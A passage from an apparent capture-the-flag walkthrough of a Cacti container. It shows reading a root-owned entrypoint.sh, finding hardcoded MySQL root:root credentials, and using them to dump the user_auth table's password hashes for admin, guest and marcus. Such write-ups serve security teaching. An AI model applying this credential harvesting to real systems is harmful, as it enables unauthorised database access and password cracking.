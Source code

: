 The `entrypoint.sh` file is executed during the container startup and is accessible only to the root user. It can provide valuable information about the container's configuration and initialization process.

```bash
(remote) www-data@50bca5e748b0:/$ ls -la entrypoint.sh
-rw-r--r--   1 root root    648 Jan  5 11:37 entrypoint.sh
(remote) root@50bca5e748b0:/# cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
    set -- apache2-foreground "$@"
fi

exec "$@"
```

The `entrypoint.sh` script executes several MySQL commands, which use the credentials `root:root` to access the MariaDB database. With these credentials, it is possible to log into the database and extract the password hashes from the `user_auth` table. The database consists of multiple tables, but the `user_auth` table is particularly interesting as it contains usernames and corresponding passwords.

```bash
MySQL [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
...snip...
...snip...
```

The `user_auth` table contains password hashes for a new user named Marcus.

```bash
MySQL [cacti]> select id,username,password from user_auth;
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
|  3 | guest    | 43e9a4ab75570f5b                                             |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----+----------+--------------------------------------------------------------+

```
